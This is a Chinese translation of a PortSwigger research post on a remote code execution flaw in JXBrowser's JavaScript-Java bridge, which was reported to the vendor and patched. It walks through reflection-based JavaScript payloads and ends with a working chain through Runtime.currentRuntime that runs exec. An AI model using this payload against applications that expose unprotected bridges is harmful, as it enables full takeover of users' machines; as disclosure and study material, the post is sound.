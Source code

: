 > 原文链接: https://www.anquanke.com//post/id/85101 


# 【技术分享】JXBrowser JavaScript-Java bridge 中的RCE漏洞


                                阅读量   
                                **117704**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：blog.portswigger.net
                                <br>原文地址：[http://blog.portswigger.net/2016/12/rce-in-jxbrowser-javascriptjava-bridge.html](http://blog.portswigger.net/2016/12/rce-in-jxbrowser-javascriptjava-bridge.html)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p3.ssl.qhimg.com/t0174ce7e7983439b36.png)](https://p3.ssl.qhimg.com/t0174ce7e7983439b36.png)

翻译：[WisFree](http://bobao.360.cn/member/contribute?uid=2606963099)

预估稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**



我近期正在研究如何使用JXBrowser来实现一套试验性的扫描技术。当我在使用JXBrowser库的过程中，我突然想到，是否可以通过调用不同的类来攻击JXBrowser客户端，并通过一个Web页面来实现远程代码执行呢？

**<br>**

**安全客百科-JxBrowser**



JxBrowser是一款采用Java语言开发的浏览器组件。JxBrowser能在Windows、Linux、Mac OS X (Intel和PPC-based)平台上将Mozilla Firefox浏览器完美地整合到Java AWT/Swing应用程序里。该库程序使用Gecko设计引擎来转换HTML文档。因而保证了它能与许多Internet标准（如HTML 4、CSS、XML、JavaScript以及其它）兼容。

[![](https://p5.ssl.qhimg.com/t014b42b902152f34d1.png)](https://p5.ssl.qhimg.com/t014b42b902152f34d1.png)

**<br>**

**漏洞利用技术分析**



我编写的[JavaScript代码](https://jxbrowser.support.teamdev.com/support/solutions/articles/9000013062-calling-java-from-javascript)（Java Bridge）大致如下：



```
browser.addScriptContextListener(new ScriptContextAdapter() `{`
    @Override
    public void onScriptContextCreated(ScriptContextEvent event) `{`
        Browser browser = event.getBrowser();
        JSValue window = browser.executeJavaScriptAndReturnValue("window");
        window.asObject().setProperty("someObj", new someJavaClass());
    `}`
`}`);
```

上面这段示例代码是从JXBrowser网站上摘录下来的。大致来说，这段代码向浏览器实例中插入了一个脚本，然后获取到了window对象，并将其转换成了一个Java JSValue对象。接下来，代码在window对象中设置了“someObj”，然后将这个Java对象传递给JavaScript window对象，这样就设置好了我们的bridge（Java桥接模式）了！根据开发文档的描述，我们在这里只能使用公共类。当我们创建好了一个bridge之后，我们在与其交互的过程中还需要使用一些JavaScript脚本。<br>



```
setTimeout(function f()`{`
    if(window.someObj &amp;&amp; typeof window.someObj.javaFunction === 'function') `{`
      window.someObj.javaFunction("Called Java function from JavaScript");
    `}` else `{`
       setTimeout(f,0);
    `}`
`}`,0);
```

我在这里设置了超时（setTimeout），它可以检测我们是否已经获取到了这个“someObj”。如果没有检测到这个对象的话，代码会不断调用这个方法，直到检测到了这个对象为止。一开始，我曾尝试使用getRuntime()方法来查看我是否可以获取到一个runtime对象的实例，并运行calc（计算器）。。我所使用的调用代码如下所示：<br>

```
window.someObj.getClass().forName('java.lang.Runtime').getRuntime();
```

但是，我得到了以下的错误返回信息：<br>

```
Neither public field nor method named 'getRuntime' exists in the java.lang.Class Java object（Java对象java.lang.Class中不存在公共域或getRuntime方法）
```

难道是因为我们无法在这里调用getRuntime方法么？于是乎，我打算用更简单的方法来尝试一下，代码如下所示：<br>

```
window.someObj.getClass().getSuperclass().getName();
```

这一次，我们的代码似乎成功运行了。接下来，我开始尝试枚举出所有可用的方法。代码和运行结果如下所示：<br>



```
methods = window.someObj.getClass().getSuperclass().getMethods();
for(i=0;i&lt;methods.length();i++) `{`
   console.log(methods[i].getName());
`}`
wait
wait
wait
equals
toString
hashCode
getClass
notify
notifyAll
```

大家可以看到，我成功地枚举出了所有的方法。接下来，我打算尝试使用一下ProcessBuilder，看看会发生什么。但是，当我每一次尝试调用构造器的时候，代码都崩溃了。根据报错信息来看，似乎构造器需要一个Java数组来作为输入。这也就意味着，我得想办法创建一个用来保存字符串的Java数组，然后将其传递给ProcessBuilder的构造器。<br>



```
window.someObj.getClass().forName("java.lang.ProcessBuilder").newInstance("open","-a Calculator");
//Failed
window.someObj.getClass().forName("java.lang.ProcessBuilder").newInstance(["open","-a Calculator"]);
//Failed too
```

别着急，我们暂时先不管这个问题，先让我们创建另一个对象来证明这个漏洞的存在。我通过下面这段代码成功地创建了一个java.net.Socket类的实例。代码如下所示：<br>

```
window.someObj.getClass().forName("java.net.Socket").newInstance();
```

但是，当我尝试调用这个对象的时候，我再一次遇到了问题，这一次系统返回的错误信息告诉我“参数类型发生错误”。虽然我现在可以创建socket对象，但是我却无法使用它们。由于我无法向该对象传递任何的参数，所以这个对象对于我来说暂时没有任何的意义，因为它根本无法使用。接下来，我又尝试去创建并使用java.io.File类的对象，但是我又失败了。我感觉现在已经走投无路了，我虽然可以创建出这些对象，但是每当这些函数需要我提供参数的时候，我都无法提供正确类型的参数值。不仅newInstance方法无法正常工作，而且其他的调用方法也无法正确运行。<br>

**<br>**

**柳暗花明又一村**



我需要帮助，我非常迫切地需要Java大神的帮助！幸运的是，如果你在Portswigger这样的地方工作的话，你就会发现你永远不是实验室里最聪明的那个人。在我“走投无路”的时候，我便打算向Mike和Patrick寻求帮助。我把我现在遇到的问题向他们解释了一遍：我需要创建一个Java数组，然后将这个数组作为参数传递给函数方法。接下来，我们的工作重点就放在了如何在bridge中创建数组对象。

Mike认为，也许可以使用一个arraylist来实现我们的目标，因为我们可以通过toArray()这个简单的方法来将arraylist转换为一个数组（array）对象。



```
list = window.someObj.getClass().forName("java.util.ArrayList").newInstance();
list.add("open");
list.add("-a");
list.add("Calculator");
a = list.toArray();
window.someObj.getClass().forName("java.lang.ProcessBuilder").newInstance(a));
```

此次调用又抛出了一个异常（提示此方法不存在），并且系统提示我们传递过来的参数实际上是一个JSObject。所以，即使我们创建了一个ArrayList并用toArray方法进行转换，得到的也是一个js对象，所以我们传递给ProcessBuilder对象的永远都是类型不正确的参数。<br>

接下来，我们又尝试直接去创建一个数组（Array）。但是，我们在调用java.lang.reflect.Array实例的时候又出现了问题，系统再一次报错：参数类型不正确。因为对象和方法需要的是一个int类型的参数，但是我们发送的是一个double类型的值。于是，我们打算尝试使用java.lang.Integer来创建一个int类型的值。但是，我又一次悲剧了，这次还是那该死的参数类型问题。Patrick认为，我们可以使用MAX_INT属性来创建一个大数组。可能大家以为，这一次可以得到我们所需要的int类型了，但事实并非如此，Java Bridge会将整型数据（Integer）转换为double类型。

为了解决这个问题，我们打算用下面这段代码进行尝试：

```
window.someObj.getClass().forName("java.lang.Integer").getDeclaredField("MAX_VALUE").getInt(null);
```

但是这一次，我们得到了系统所抛出的一个空指针异常。在思考片刻之后，我认为，为什么不尝试发送“123”，看看函数方法是否会接受这个参数值。其实我觉得这并不会起什么作用，但是它却能够打印出我们最大的int值。接下来，我们继续尝试通过最大的int值来调用数组构造器，果然不出所料，系统再一次报错了。然后，我们决定研究下runtime对象，看看我们是否可以使用同样的技术来做些什么。Mike建议使用getDeclareField方法并获取当前的runtime属性，由于它是一个私有属性，所以我们还要将其设置为“可访问”（setAccessible(true)）。经过千难万阻，我们终于成功地打开了计算器（calculator.exe）。操作代码如下所示：<br>



```
field = window.someObj.getClass().forName('java.lang.Runtime').getDeclaredField("currentRuntime");
field.setAccessible(true);
runtime = field.get(123);
runtime.exec("open -a Calculator");
```



**总结**



这也就意味着，攻击者可以使用这项攻击技术来对任何一个使用了JXBrowser的网站（部署了JavaScript-Java Bridge）实施攻击，并完全接管目标客户端。<br>

我们已经私下将该漏洞报告给了TeamDev（JXBrowser的项目开发组），他们在了解到该漏洞之后，便在第一时间发布了一个更新补丁。更新补丁启用了白名单机制，并且允许开发人员使用[@JSAccessible annotation](https://jxbrowser.support.teamdev.com/support/solutions/articles/9000099124--jsaccessible)。请注意，如果你的应用程序没有使用@JSAccessible annotation的话，系统并不会强制开启白名单，而此时上述的攻击方法将仍然奏效。


